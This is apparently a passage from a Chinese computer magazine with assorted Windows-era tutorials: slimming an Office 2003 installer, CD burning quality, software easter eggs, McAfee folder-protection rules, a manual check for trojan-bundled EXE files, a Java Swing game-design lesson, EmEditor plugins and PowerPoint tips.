小提示：参数中“/p”表示让Windows Installer把补丁程序集成到一个已经存在的MSI文件中；“/a”参数表示用管理员模式安装；“shortfilenames=true”允许在升级过程中使用短文件名；“/qb”是为了在集成过程中只显示最重要的步骤，而不会显示那些次要的。

第三步：完成后，D:\Office已经是集成了SP1的Office 2003版本。SP1目录还有OWC102003SP1ff.msp和OWC11SP1ff.msp两个补丁用于更新Office Web组件，由于很多人并不需要安装Office Web组件，所以不必集成这两个补丁。

使用 ORK 定制 Office

现在将使用ORK工具中的自定义安装工具对Office进行定制，仅仅保留常用功能，得到MST文件。
第一步：安装ORK，点击“开始”菜单中的“程序→Microsoft Office→Microsoft Office Tools→Microsoft Office 2003 Resource Kit→Custom Installation Wizard”，运行ORK工具的自定义安装向导，直接点“Next”进入第二步（步骤显示在如图1所示界面的右上角），要指定安装路径。
第二步：使用“Browse”按钮，选择D:\Office\PRO11.MSI，点击“Next”按钮，在第三步选择默认设置“Create a new MST file”，点击“Next”。
第三步：输入MST文件，如D:\Office\promini.MST（见图1），连续点击三次“Next”，进入第七步。

第四步：现在才进入真正的设置部分。这里可以指定所要安装的组件，在左侧树形列表中选择要安装的部件。点击“Microsoft Office Word→.NET可编程性支持”，选择“Not Available, Hidden, Locked”，此项就不会再安装，用同样方法去除“帮助”，以及Office共享功能下面的“中文可选用户输入方法”、“VBA项目的数字证书”和“Microsoft手写组件”（见图2）。其他项目是否安装，可根据需要进行精简，如果不需要Access，可彻底不安装Access（仅Access就占用50MB以上空间）。根据设置不同，最终安装文件可以缩小到60MB～100MB左右，如果减少组件，最终的安装包还可能更小。设定好精简的项目后，点击“Next”按钮进入到下一步。

第五步：选择“Configure local installation source”，在“Product Key”栏中输入Office的序列号，并勾选“I accept the terms in the License Agreement”，之后，一直点击“Next”至结束，按“Finish”按钮。
最终生成了一个名为PROmini.MST的文件。我们对Office 2003精简后的“减肥信息”和其他配置信息，都记录在这个文件里面了。

用 ORCA 修改 MSI

现在要用ORCA将MST文件信息写入MSI文件中。
第一步：安装并汉化ORCA，打开软件，选择菜单中的“文件→打开”，打开D:\Office目录下的pro11.msi。
第二步：点击菜单中的“转换→应用转换”（见图3），选择刚才生成的promini.mst文件，然后选择菜单中的“文件→保存变更为”，将文件保存为pro11mini.msi。

运行这个新得到的pro11mini.msi，就可以仅仅安装我们开始选择的那些组件，而不再安装去掉的那些组件了。

使用工具得到最小文件列表

现在D:\Office目录下包含了Office 2003 SP1的所有文件，还没有去掉安装程序中不需要的文件。如何找出哪些是我们需要的文件，哪些是我们不需要的文件呢？也就是要确定Office 2003“减肥”之后，要保留哪些文件。现在就要开始删除文件了。
第一步：修改D:\Office\pro11.msi的文件名为pro11bak.msi，将前面得到的pro11mini.msi更名为pro11.msi，这样是为了可以使用setup.exe执行Office的安装。
第二步：运行Filemon，取消“文件→捕获事件”项，然后按Ctrl+X，清除记录，再选择菜单中“卷”项，确认勾选了“卷D(FIXED)”的勾选（见图4）。按Ctrl+E，重新启动文件监视。

第三步：运行D:\Office\setup.exe，安装精简后的Office，选择“全部安装”，把我们所要求的功能在系统中安装一遍，看看到底哪些文件被安装了。注意，不要将Office安装到D盘。
第四步：安装完成后，切换回Filemon，按Ctrl+E，关闭文件监视。

第五步：现在我们就根据Filemon的记录来分析Office 2003安装程序在安装过程中到底需要哪些文件。在Filemon中点击菜单中的“文件→另存为”，将记录保存为filemon.txt。
第六步：打开Excel，拖入刚刚保存的filemon.txt，可以看到filemon.txt在Excel中分成了整齐的7列（A-G），其中文件名在E列（见图5）。我们只保留第5列也就是E列，将其余列删除，这样仅仅留下了需要处理的文件名。
第七步：在Excel中点击菜单中的“数据→筛选→高级筛选”，然后勾选“选择不重复的记录”，“确定”后，就可以筛选出不重复的数据。将这些数据复制到一个文本文件中，并命名为Officefilelst.txt，这样就得到了Office精简版安装时候所需要的全部文件列表。
这里的步骤仅限于当前操作系统安装Office精简版的文件列表，为了让最后制作的安装文件可以运行在所有操作系统中，还需要在不同系统中安装一次，将所有的文件列表进行合并，得到最终的文件列表。一般来说，能满足Windows 2000安装，大部分都可以满足Windows XP/2003的安装，如果条件不足，也可以直接用Windows 2000安装时制作的文件列表。

获得精简后的最终文件

下面，我们就要编写批处理，从而得到最终的Office精简版。目标是从D:\Office复制Office精简版需要的文件到E:\Officeminioffice中。批处理内容如下（可根据实际情况路径）：

```
xcopy D:\Office E:\Officeminioffice\T
for /F %%i in (Officefilelst.txt) do copy %%i E:\Officeminioffice\%%~pnxi
```

之后，运行该批处理文件，全部完成后，E:\Officeminioffice中就是打了SP1补丁的精简版Office 2003。

测试你的成果

在不同的全新安装的操作系统进行测试，看看是否有缺少文件的情况发生。经笔者测试，一般是不会缺少文件的。怎么样，还不快去定制你的Office安装包？

（山东 高峰）

五、龙文输入法

在特殊符号输入上，它也提供了和标准输入法完全一样的软键盘输入方式，同时还提供了非常方便的自定义编码输入方式，不过默认并未启用这个功能，需要在提示条上右击，选择“系统设置与管理”，然后单击“系统管理”选项卡，选中“批量添加词组或用户自定义词库到用户词库”选项，并在“编码方案”中选择你习惯使用的输入法选项（见图14），单击“浏览”按钮，在打开对话框中选择“自定义编码”文件，最后单击“开始执行”按钮即可。

这里的特殊符号编码是龙文输入法默认设置好的，一般是以特殊符号中文名称的声母作为编码的，我们打开“C:\Program Files\龙文输入法平台”目录下的“自定义编码”文件，就能看到这些编码的定义了，当然，如果你想修改这些编码设置，只需要修改这个文本文件即可。
（正阳新锐 徐海斌）

让马赛克和爆音远离你的VCD、CD

相信没有人希望自己刻录出来的CD出现爆音或者刻录出来的VCD出现马赛克。所以在刻录VCD或CD时大多使用降速刻录。但除此之外，你可能忽视了“刻录质量”这个问题。

你知道吗？

拿到任何一张刻录盘，只要使用Nero中的Nero CD-DVD Speed就能检测出光盘的“刻录质量”，选择“其他”菜单项下的“ScanDisc”可以检测出光盘中的数据是否能够100%正确读取；使用“光盘质量测试”（见图），可以测试出光盘质量，并给出详细报告，你现在还看不懂？别急，我们会在以后的杂志中教会你如何看懂它们。

数据、VCD 及 CD 的格式差异

平常刻录出来的数据、VCD及音乐CD它们在存储格式上是不同的。数据一般是使用Mode 1格式，VCD使用Mode 2 Form 2格式，而音乐CD则采用的是Audio格式。
这里的Mode 1及Mode 2最大的区别就是前者包含了错误修正码（ECC:Error Correction Code）及错误侦测码（EDC:Error Detection Code），它们用于保证资料的正确性，但这要占用一部分的空间，因为这些特性所以Mode 1多用于保存数据、软件等。而对于Mode 2，则细分为Form 1及Form 2两种格式，Mode 2 Form 1包含EDC与ECC，所以该格式和Mode 1一样可储存对准确性要求高的资料；Mode 2 Form 2则不包含ECC，这样当资料的读取有误时，无法修正，当然这也让光盘有更多的可利用空间。对于Audio格式，则连基本的EDC也没有。
现在你应该明白了，当光驱读取影音资料及声音资料时，不管正确与否，只要读到东西，就让它过去，这样在欣赏VCD和聆听音乐时才不会有停顿的现象。当只有少数的错误数据时一般根本不会被我们所察觉。当错误较多时，大家就会看到马赛克或是听到爆音了。

爆音、马赛克源自哪里？

不少人认为VCD和音乐CD都是数据，数据的资料用电脑复制后，一定会和原来的一模一样，而实际这是个错误概念。举个最简单的例子，很多时候，我们用来做光盘复制的源盘并没有马赛克或爆音，但复制出来的光盘或多或少都存在马赛克或爆音的现象，是什么原因引起问题的呢？
-   使用过高的速度读取、刻录光盘；
-   使用的刻录盘片质量不佳；
-   读取源盘的光驱读取能力过差；
-   刻录机刻录 Mode 2 及 Audio 的能力过差。

很多人在刻录时只是一味求快，但却忽视了刻得快并不代表刻得好这个问题，在光盘外圈部分，这个问题尤为突出。所以刻好的光盘只测试前面部分还是不够的，最好是跳至后段播放看看，如果有马赛克或爆音，下次就要降速来刻录了，直到降到了某个你可以认为可以接受的速度为止，当然你也可以直接使用下面推荐的速度。
在刻录 VCD 时，如果刻出的电影有马赛克（源盘并没有），可以试试将源盘放到刻录机中，而刻好的光盘放到读取数据的光驱中，然后使用工具（比如Total Commander的文件对比功能）对比两个光盘中的DAT文件，当然结果不会是一模一样的——马赛克就是在复制时产生的。
除上面情况外，还有一种情况是兼容性问题，比如刻录出来的光盘在有些光驱中播放不会出现马赛克，同样的盘在其他光驱中则出现问题，而将DAT文件复制到硬盘中播放则正常，这通常就是兼容性问题，而且一些较好的盘片更容易出现这个问题。出现这种问题，有可能重刻一次的光盘反而质量更好。而“兼容性”也是衡量“刻录质量”的一个标准。这个问题只有多了解其他朋友在出现马赛克或爆音时，询问他们用的是几倍速刻录，用的是什么刻录机，什么盘片等。

刻录到底要用几倍速？

一般来说，刻录 VCD 和音乐 CD 应该使用8倍速左右，超过8倍速时，刻出来的光盘很容易出现马赛克（尤其是光盘的外圈部分）。当然你也可以根据自己的刻录机使用其他速度，比如使用12倍或是16倍速刻录出来的光盘也很完美，一样可以使用。另外，前面提到的“兼容性”问题也可以通过降低刻录速度来解决。

刻录VCD、CD 应该选择什么品牌的刻录机

这里笔者只给出网友评价还不错的，用来刻录VCD及音乐CD的刻录机品牌，它们分别是Teac和Plextor，当然这两个品牌的刻录机都要贵一些，但如果经常刻录VCD或音乐CD，还要追求完美的品质，那么选择它们是不会有错的，毕竟这两款刻录机还同时具有不挑片、可长时间刻录（比如连续刻录50张光盘）等优点。

对于读取源盘的光驱，同样也很重要，毕竟Mode 2及Audio的格式非常容易出错，当刻录机收到的数据有问题，自然就把这些“问题数据”刻录出来了，由此产生马赛克及爆音。
由于Mode 2及Audio不具有纠错功能，所以很多光驱都故意放慢了抓音轨的速度。这也是很多朋友都奇怪为什么一个50倍速的光驱在复制音乐光盘时速度很慢的原因。对于有较高要求的朋友，在选择读取源盘的光驱时，同样也不能忽视。那么我们应该如何选择呢？你可以试着做个小测试：连续两次抓同一首歌的音轨，然后比较两次的文件，如果完全一样，表示光驱的抓轨能力还不错。一定要注意“抓得快，未必抓得准”（由于没有纠错，做到“快”很容易）。

刻录盘片的选择

现在刻录盘品牌越来越多，价格从低到高也有不同，相信你经常看过一些评测文章，这里不再赘述。我们只说一条很多人没有注意到的问题：不要使用价格过低的杂牌盘片。很多人的刻录机用了没多久就坏掉，就是因为经常使用杂牌的刻录盘所致，毕竟一分钱一分货。

小编有话说：如果没有好的光驱来读取源盘时，也可以用刻录机先将源盘制作成镜像文件，然后再进行刻录，虽然耗时，但刻录质量可以得到保证。

（好心情）

新鲜的彩蛋出来

你一定听说过许多软件中藏着程序员秘密加入的特殊标志或程序，它们被叫做彩蛋，相信你也一定知道一些软件的彩蛋，比如：在Nero Burning Rom中点击“Help→About…”，接着双击窗口下方两个燃烧的光盘，一条跳舞的文字出现了，多双击几次还会变换；打开WinRAR的“帮助→关于WinRAR”，单击左侧的WinRAR书本图标，它会慢慢掉落；在PhotoShop中按住Ctrl键后点击“帮助→关于PhotoShop”，一只大眼睛会瞪着你……

当然，以上彩蛋大家都说得太多太多了，今天我们就来介绍一些新鲜采集到的软件彩蛋，让你大开一下眼界。

Winamp 5.0里面彩蛋多

-   1.随音乐闪动的界面
    启动Winamp（皮肤为Modern）并播放歌曲，在键盘上慢慢输入“nullsoft”（不带引号），在输入“l”后按下Esc键取消弹出的窗口，输入完成后，你会发现Winamp窗口会随着音乐闪动。如果把皮肤更换为“Winamp传统”，再次重复上面操作，注意标题栏文字会发生变化，并查查它的意思是什么吧。
-   2.让两只骆驼为你跳舞
    保证皮肤为Modern，播放音乐，通过鼠标拖拽将Winamp窗口尽量拉长，如图1所示进行操作。两只骆驼会出现，并随着音乐晃动脑袋。
-   3.测测你的小鱼能转多快
    按下Ctrl + P组合键打开“参数设置”窗口，进入“插件→输入”，选中“Nullsoft Vorbis解码器”后单击“关于”按钮，在弹出窗口中迅速不断双击左侧的鱼图标，那条鱼会随之转动，下面会出现转速，和朋友比比谁让鱼转得更快。

小提示：其实Winamp的彩蛋还有很多，比如：打开其“关于”窗口的“版权”选项卡，按住Shift + Ctrl键，双击画面会出现另外一个界面。

Messenger Plus!神奇的命令

Messenger Plus!是优秀的MSN Messenger增强工具，它提供了很多特别的功能，而其中的快速命令很有意思，打开一个聊天窗口，输入“/”（不带引号）后会自动弹出如图2所示的菜单，选择相应命令即可实现类似脱机、发送文件等（有些命令需要对方也安装该软件）。当然你也可以直接在聊天窗口中输入相应命令，比如:/sendfile是发送文件、/away是转为离开状态等。不过Messenger Plus!中还隐藏着一些特别的命令。

-   （1）/strek W/：会弹出一个人像并发出语音提示。
-   （2）/community：这是3.5x版新增的一个彩蛋命令，你试着输入一下看看效果！

FireFox对微软的回击

在FireFox地址栏中输入“about:mozilla”（不带引号），是不是出现了一长段文字？翻译过来的意思是：
终于，那野兽倒下了，异教徒们为此而欢庆。但是一切并未结束，因为一只巨鸟已从灰烬中诞生。那鸟从空中俯视着异教徒们，向他们施放火与雷电。因为这野兽已重生为巨鸟，恢复了力量。金钱的追随者们在恐惧中后退。
这个网页称这段文字来自于Mozilla之书，而7:15指2003年7月15日，Netscape浏览器开发人员被解雇，Mozilla组织独立，巨鸟指Mozilla组织，火焰和闪电指代Mozilla Firebird。
其实Mozilla之书并不存在，但这个历史性的彩蛋一直延续在Netscape系列之中，包括Netscape、Mozilla、FireFox，只要在地址栏输入“about:mozilla”，就等于翻开了这本书，当然其中内容也不一样。如果你有兴趣可以看看http://www.firefox.net.cn/newforum/viewtopic.php?t=2164&view=next的介绍，非常棒，也非常有意思！而Mozilla全书在http://www.mozilla.org/book/。

Adobe ImageReady CS中的小鸭子

点击“帮助→关于ImageReady”，按下Ctrl键不放，鼠标指针将变为图章工具，接着在这里点击鼠标，你会发现可爱的小鸭子出现了，但一共只能有十只。接着关闭这个窗口，按下Ctrl + Alt键不放，点击“帮助→关于ImageReady”（也是一个彩蛋），你会发现刚才画出的小鸭子到了这个彩蛋的画面上。不要松开Ctrl + Alt键，用鼠标点击小鸭子，是不是像是开枪打它们呢？

（北京 风云）

你的文件保护好了吗？

在日常使用电脑中，经常会有重要的文档是不希望别人看到、修改、删除的，那么你是如何来实现的呢？

-   1.使用NTFS分区
    如果你的电脑上有NTFS分区，建议将要保护的重要的文档放到此分区中，并按照如下方法操作：在“资源管理器”中右击需要保护的文件或文件夹，选择“属性”，点击“常规”选项卡下的“高级”按钮，勾选“加密内容以便保护数据”项即可。如果需要为不同的用户设置不同的权限，可在“安全”选项卡下进行设置。
-   2.使用第三方软件
    如果是FAT32的分区，要保护一个文档，那么一般只有使用加密、伪装文件夹或文件的方法来实现了。这类软件很多，比如加密金刚锁等。
-   3.使用杀毒软件
    没想到杀毒软件也可以兼职“文件保护”吧。而提供这个功能就是McAfee VirusScan 8.0i（以下简称McAfee）。8.0i与7.0相比，增加了很多新功能，其中很重要的一项就是“访问保护”（具有木马端口阻挡、共享资源保护等作用），这也使McAfee不再仅仅只是防杀病毒这么简单。
    比如，你电脑中的D:\DOC文件夹中保存了很重要的文档，现在不允许修改、删除该文件夹下的文档，应该怎么操作呢？
    第一步：右击McAfee系统托盘图标，选择“VirusScan控制台”，在弹出的“VirusScan控制台”窗口中双击“访问保护”项，打开“访问保护属性”窗口。
    第二步：在“文件、共享资源和文件夹保护”选项卡下选择“阻挡对所有共享资源的读写访问→阻止并报告访问尝试”。
    第三步：点击“添加”按钮，在“规则名称”中输入“保护D:\DOC”（不含引号），在“要阻挡的文件或文件夹名”中输入“D:\DOC\*.*”（不含引号）。在“要阻止的文件操作”下勾选“写入文件”及“删除文件”，点击“确定”两次即可（见图1）。现在这个文件夹下的文件已经不能修改或删除了。

小提示：在“VirusScan控制台”中，点击菜单中的“工具→用户界面选项”，在弹出窗口中点击“密码选项”，为McAfee设置密码，可以防止别人修改你的设置。
虽然McAfee已经提供了足够的“访问保护”，但我们还可以让它保护得更全面一些。下面再来介绍增强“访问保护”的简单方法。
第一步：从http://www.newhua.com/cfan/200510/MVS.rar下载“访问保护”设置文件压缩包，然后解压缩，并运行其中的注册表文件。
第二步：按照前面介绍的方法打开“访问保护属性”窗口，这时就会看到增加的项目（见图2）。
在使用这个设置文件后，还需要注意一些使用问题：

-   ①如果使用了网络防火墙，“端口阻挡”功能中新增加的几个端口可以不必勾选；
-   ②当安装要向系统文件夹写入文件的软件时，要去除“文件、共享资源和文件夹保护”选项卡中如图3所示4个项目的勾选；
-   ③如果想在C盘根目录中复制文件，要去除“文件、共享资源和文件夹保护”选项卡下“要阻挡的文件和文件夹”中“禁止C:\建立新文件”项的勾选。

（北京 LL）

检测文件是否捆绑木马

当大家需要的软件从不可信任的网站下载时，你是否非常担心被黑客捆绑了木马呢？
一般文件捆绑木马都是通过软件将木马文件与EXE文件进行绑定的，而且捆绑的时候都会用网络上流行的检测软件测试不被发现才发布，WinHex十六进制编辑器可以读取EXE文件中的一些标头信息，我们就利用它进行手工检测。
首先，运行WinHex，打开被怀疑捆绑木马的程序，利用Ctrl + F组合键调出查找工具，搜索“MZ”（不含引号）字符。搜索到“MZ”后，按F3继续搜索，如果搜索到多于或等于2个“THE PROGRAM”字段，那么你就要小心了，这个文件很可能是两个程序所组成的。当然你也可以用一款“木马捆绑克星”（下载地址：http://www.newhua.com/cfan/200510/mview21.rar）的小工具来查看程序是否捆绑了木马。

（河北 香草天空）

## Swing 跟我学之游戏设计(4)

你有没有经历过装修？尽管它是件劳神费力的事，可现代人还是不遗余力地在装修上花尽心思。毕竟，在这个视觉支配感官的时代里，谁会嫌自己家太漂亮呢？今天，就让我们秉着精益求精的完美主义精神，在上次已经完成的游戏界面里再做一番细致的装饰，将装修进行到底！

## JDialog 增强型对话框窗口

还记得我们最初做的“关于”功能吗？虽然“关于”对话框能很好工作，但当你要写比较长或者是比较复杂的内容时，就会感觉到 JOptionPane 有些捉襟见肘。让我们用 JDialog 来制作漂亮的对话框吧！JDialog 和 JFrame 一样同属顶层容器控件，使用方法 JPanel 几乎一样。下面先来看看我们的第一个 JDialog 小程序吧：

```
public class AboutDialog extends JDialog {
    JLabel about = new JLabel("关于这可是JAVA写的连连看哦！");

    public AboutDialog(JFrame frame) {
        this.setTitle("About");
        this.setSize(320, 200);
        about.setHorizontalAlignment(SwingConstants.CENTER);
        this.getContentPane().add(about, BorderLayout.CENTER);
        this.show();
    }
}
```

然后将主程序中的“关于”部分的代码修改如下：

```
if (e.getSource() == about) {
    new AboutDialog();
    return;
}
```

现在运行看看，是不是大气多了？当然，现在的样子仍稍嫌简陋了一点，所以还得再接再励。这里告诉大家一点小技巧：如果在程序中加入了 `JDialog.setDefaultLookAndFeelDecorated(true)`，对话框窗口的显示就会使用 Java 的外观风格，会比原来的对话窗口漂亮得多！需要注意的是，当使用了 Java 观感后，对话框右上角的关闭按钮就不会显示出来，因此得自己加上“关闭”按钮及关闭窗口的事件处理。自己动手试试，你能做出和我一样漂亮的对话框吗(见图1)？



## 黄埔故事：模态窗口和非模态窗口

在Windows中，我们常常会接触到模态窗口和非模态窗口。所谓模态窗口，就是指当前窗口弹出时，只有关闭此窗口才能继续进行其它窗口的操作。非模态窗口则是即使不关闭当前的窗口，也可以对后面的窗口进行操作。最典型的例子就是Windows中自带的“记事本”软件，“字体”功能就是模态窗口，而“查找”功能就是非模态窗口了。

在JDialog中，我们可以用JDialog(Frame owner, boolean modal)来指定对话框的模态或非模态状态。

## 在控件上使用HTML标签

大多数的 Swing 控件可以显示文字，对于这些控件，在一般情况下，只能使用单一体、单一样式、单一颜色来显示。比如说，当要在标签 JLabel 控件上显示文件时，我们会用到 JLabel 的 `setFont()`、`setForeground()` 等方法，并且代码看起来会是这样：

`label = new JLabel("A label");`
`label.setFont(new Font("Serif", Font.PLAIN, 14));`
`label.setForeground(new Color(0xffffdd));`

如果想在某段文字中使用不同的字体或颜色，其实可以使用HTML格式。在控件上使用 HTML 格式确实是一件令人兴奋的事情，我们只需要简单的将 `<html>` 标记写在控件中就行了，比如可以这样创建一个 JLabel：

`JLabel label = new JLabel("<html><font color=red>RED</font></html>");`

然而，直到 JDK 1.4.2，并非所有的控件都可以使用 HTML 格式，在 SUN 的官方文档中提到：支持 HTML 格式的控件只有按钮、菜单、标签、提示、标签面板、树和表格。无论如何，这都是一个非常好用的特性！

## 强劲的编辑器控件JEditorPane

上面说到了 HTML 格式，HTML 格式使得 Swing 控件显示文字的能力增加了不少，然而，如果要进行图文混排的显示，HTML 格式也无能为力了。

网络让世界变得精彩，互联网中各式各样的网站都与 HTML 分不开，就算不慌 HTML，也可以使用 Word、FrontPage 等工具制作出漂亮的网页来。因此，如果能够将网页在控件中显示出来，那就解决了不少问题。

JEditorPane 是 Swing 中一款非常强大的文本编辑控件，如果想完全了解 JEditorPane 的用法，绝不是简简单单的一两篇教程能讲完的，大家如果有兴趣，可以看看 Java 安装目录下 `demo\jfc\Stylepad` 下的演示程序，它可以告诉你 JEditorPane 有多么强大。

在 JEditorPane 中，我们完全可以将 HTML 文件(或写字板等文字处理软件生成的 RTF 格式的文件)直接显示出来，虽然它还不能完整地支持 HTML 的所有标准。因此，大家在制作页面的时候，尽可能地只使用 HTML3.2 标准的语法而不要使用 CSS、JavaScript 等特性。

如何让 JEditorPane 显示 HTML 文件呢？最简单的做法就是：

`JEditorPane EditorPane = new JEditorPane();`
`URLClassLoader urlLoader = (URLClassLoader)this.getClass().getClassLoader();`
`URL url = urlLoader.findResource("doc/help.htm");`
`EditorPane.setEditable(false);`
`EditorPane.setPage(url);`

我们首先使用 `setEditable(false)` 语句使 JEditorPane 中的内容不可编辑，然后再使用 `setPage(url)` 方法载入需要显示的 HTML 文件。

不仅如此，JEditorPane 还可以处理 HTML 中的链接，做法也非常简单。首先，要使 JEditorPane 能够响应点击链接的事件，我们需实现 HyperlinkListener 接口。然后，我们为 JEditorPane 添加超链接的监听：

`HelpPane.addHyperlinkListener(this);`

最后，我们再实现监听链接事件的处理：

`public void hyperlinkUpdate(HyperlinkEvent e) {`
`    if (e.getEventType() == HyperlinkEvent.EventType.ACTIVATED) {`
`        JEditorPane pane = (JEditorPane) e.getSource();`
`        if (e instanceof HTMLFrameHyperlinkEvent) {`
`            HTMLFrameHyperlinkEvent evt = (HTMLFrameHyperlinkEvent)e;`
`            HTMLDocument doc = (HTMLDocument) pane.getDocument();`
`            doc.processHTMLFrameHyperlinkEvent(evt);`
`        } else {`
`            try {`
`                pane.setPage(e.getURL());`
`            } catch (Throwable t) {`
`                t.printStackTrace();`
`            }`
`        }`
`    }`
`}`

只需要简单的三个步骤，我们就可以享受 JEditorPane 带来的处理 HTML 页面的好处，做出漂亮的帮助文档了(见图2)。



## 改变鼠标光标的样式

目前为止，我们在程序界面上已经花了很多功夫，界面也慢慢变得漂亮起来。不过，装饰永无止境，下面就来谈谈如何改变鼠标光标的样式吧。实际上，`createCustomCursor(Image cursor, Point hotSpot, String name)` 就能满足要求。其中，cursor 是要设置为光标的图片，hotSpot 是图片显示在实际光标位置的位移，name 是给光标起的名字。现在挑选一张自己喜欢的图片来作为程序的光标吧(见图3)。

如果仍然觉得意犹未尽，那么还可以制作动画光标。首先准备好一系列图片，然后使用 `Timer()` 方法来设置一个定时器，每隔一段时间就变换光标的图片，这样，光标不就动起来了？



## 声音

声音是 Swing 的一部分吗？回答是否定的。虽然声音不属于 Swing，但为了让我们的游戏更加完美，还是一起来看看怎样处理声音吧。

Java 自出道之日就能处理声音，但那时只能在 Applet 中进行处理，即便如此，声音的格式也只能是少见的 AU 格式。幸好，SUN 意识到了这个问题，在 JDK1.3 之后，Java 就提供了专门的声音处理包来满足声音处理的需求。

Java 支持 MIDI 和 WAV 格式的声音文件，`javax.sound.midi` 和 `javax.sound.sampled` 这两个包就是用来处理 MIDI 和 WAV 文件的。MIDI 格式优点在于文件小，缺点是只能保存乐曲而无法包含波形声音信息，WAV 格式虽然能包含波形声音信息，可惜文件太大。因此，我们可以将 MIDI 作为游戏背景音乐，WAV 作为音效。

由于对 WAV 格式文件的操作和 MIDI 格式的文件的操作十分相似，他们的区别仅在于使用的包不同，因此，我们就以处理 MIDI 格式的文件为例吧：

`// 读取midi文件`
`public void loadMidi(String filename) throws IOException, InvalidMidiDataException {`
`    URLClassLoader urlLoader = (URLClassLoader)this.getClass().getClassLoader();`
`    URL url = urlLoader.findResource(filename);`
`    sequence = MidiSystem.getSequence(url);`
`    //sequence保存着MIDI的音序结构`
`}`

```
java
//播放sequence
public void play() {
    if (isPlaying) { // 如果已经在播放，返回
        return;
    }
    try {
        sequencer = MidiSystem.getSequencer();
        sequencer.open();
        sequencer.setSequence(sequence); // 加载sequence
        sequencer.addMetaEventListener(this); // 添加事件处理
    } catch (InvalidMidiDataException ex) {
    } catch (MidiUnavailableException e) {
    }

    // Start playing
    thread = new Thread(this);
    thread.start();
}

public void run() {
    Thread currentThread = Thread.currentThread();
    while (currentThread == thread && !isPlaying) {
        // 当 MIDI 没有播放的时候，播放 MIDI 音乐
        sequencer.start();
        isPlaying = true;
        try {
            thread.sleep(1000l);
        } catch (InterruptedException ex) {
        }
    }
}
```

以上是处理 MIDI 文件的主要代码，代码并不是很长，却已经能很好地完成我们需要的功能了。当然，如果你还不满意，Java 也提供了多种方法让你对 MIDI 格式的文件进行音调、频率的改变。需要提醒的是，声音处理一定要做为一个单独的线程来进行，究其原因嘛，还是大家自己思考一下了。

## 结束语

至此，我们的连连看已经成为一道色香俱全的美味佳肴了，虽然游戏中还有很多的技术没有讲解到，然而，作为一个 Swing 教程，相信对大家也会有所帮助的。
不知道这样的教程是否能够让大家完成连连看这个游戏，如果你有困难或者疑问的话，可以通过leftmoon@163.com 与我联系，或者将你感兴趣的部分告诉编辑吧，我会将自己所知道部分的拿出来与大家共同探讨。在此我衷心感谢大家能够耐心将 Swing 这杯咖啡品完，谢谢大家的支持，欢迎大家随时光临我们的咖啡馆哦！

（武汉 张剑）

## 让 EmEditor 实用功能更上一层楼

最近网上出现了一个 EmEditor 中文插件集，里面包含了 EmEditor 几乎所有的插件，这对于在使用 EmEditor 的人是非常有帮助的。

### 1. 插件的自动安装

从 http://www.newhua.com/cfan/200508/emedpiset.rar 下载 EmEditor 中文插件集，注意在安装时，需要根据操作系统来设置不同的显示字体，并根据自己的需要选择要安装的插件。安装完成后，打开 EmEditor，在工具栏右击，确认“插件工具栏”已被勾选。

### 小提示

如果不需要编程，在安装时，不要选择“编程开发”项，这样可以减少插件数量。其他插件的安装与否，你可以参考解压缩后的“插件列表.txt”。

### 2. 插件的自定义添加及删除

如果安装所有的插件，工具栏上的按钮过多，会影响插件的使用，所以我们还要根据自己的需要，来删除一些不用的插件。EmEditor 插件是安装在软件所在目录下的 Plugins 子目录中的，该目录下每个 DLL 文件都对应了一个插件，只要删除对应的文件，就可以直接删除 EmEditor 中的插件按钮了。

### 3. 精彩插件实例秀

#### 实例一：检查文档的拼写错误

以前要使用拼写检查功能时，需要在 Word 中打开文件，而现在使用插件功能，我们就可以直接在 EmEditor 中使用此功能了。只要点击“✔(拼写检查)按钮，EmEditor 就会自动调用 Word 的拼写检查，对当前文件进行检查。

#### 实例二：在行尾添加指定字符

如果你希望在每一行末尾添加指定的字符串，那么可以使用“自动追加”按钮进行添加。在使用时，只要选中要添加字符串的行，然后点击“✔(自动追加)按钮，在文本框中输入要添加的文字，再点击“追加”按钮即可。

其他的实用插件，我们不再一一介绍，你可以慢慢体验试用。如果你觉得安装插件过多，那么可以从 http://www.newhua.com/cfan/200508/cfPlugins.rar 下载经过小编精选的插件，只要将这些插件直接解压缩至插件目录即可使用。

(BCD)

## 挡不住的魅力 尽在 PowerPoint

PowerPoint 是微软 Office 办公套装中的组件，专门用于制作演示幻灯片。下面，我们就从个人娱乐、教学培训、商业办公等几个方面和大家一起打造几份靓丽的幻灯片。本文涉及的部分素材及最终效果文件可从 http://www.newhua.com/cfan/200510/ppt.rar 下载。

### 幻灯片的 Magic Seven 原则

- ★ 幻灯片是辅助传达演讲信息的，只列出要点即可，切忌不要成为演讲稿的 PPT 版，全篇都是文字。同时背景不要追求花哨，清爽最佳。
- ★ 每张幻灯片传达5个概念效果最好，7个正好符合人们接受程度，超过9个则会让人感觉负担重。
- ★ 我们是来演讲，不是来做视力检查！字体要大，大标题用44号粗体，标题1用32号粗体，标题2用28号粗体，再小就不建议了。
- ★ 标题最好只有5～9个字，最好不要用标点符号，至于括号也尽量少用。
- ★ 表胜于文，图胜于表，所以图表自己就能讲故事。同时，图表不要加文字解释，这个工作不该电脑做的，而应该留给你。
- ★ 最好有一张演讲要点预告幻灯片，告诉听众你要讲什么。在完成演讲的时候应有一张总结幻灯片，让听众再次回顾一遍，加深印象。
- ★ 好的演讲者要能控制时间，所以最好利用 PowerPoint 的排练功能（幻灯片放映→排练计时）预估一下时间。

### 实例1：轻松建简历，“秀”出不一样的你

第一步：单击菜单命令“文件→新建”，接着在右侧新建演示文稿窗格中单击“通用模板”打开模板对话框。单击模板对话框上的“演示文稿”选项卡，再双击打开其中的“介绍讲演人”模板。如果安装 Office 时，没有选择安装 PowerPoint 的所有选项，则双击“介绍讲演人”时将会弹出一个安装对话框，将 Office 光盘放入光驱，单击“确定”就可以了。如图 1 所示，就是“介绍讲演人”模板所创建的幻灯片了。



### 小提示

本例是在 PowerPoint XP 下完成的，在 PowerPoint 2003 中，新建演示文稿窗格中的“通用模板”已改名为“本机上的模板”，并且其中的“介绍讲演人”模板也没有了。不过没关系，大家可随意挑选一个形式接近的模板进行改造（点选模板时右侧会有预览），不一定要完全拘泥于模板的名称。

单击菜单命令“文件→保存”，在保存对话框中将当前演示文稿保存为“简历.ppt”（后缀名“ppt”是 PowerPoint 自动加上去的）。

第二步：显然，这个幻灯片需要修改一下才能为我所用。点击幻灯片上的“介绍”，当显示出文本框并且光标变成闪烁的“丨”形状时，就可以按删除键删除掉原有的文字并输入自己需要的文字了，如改成“我的简历”。以同样方法可以修改或删除幻灯片中其他的文字。

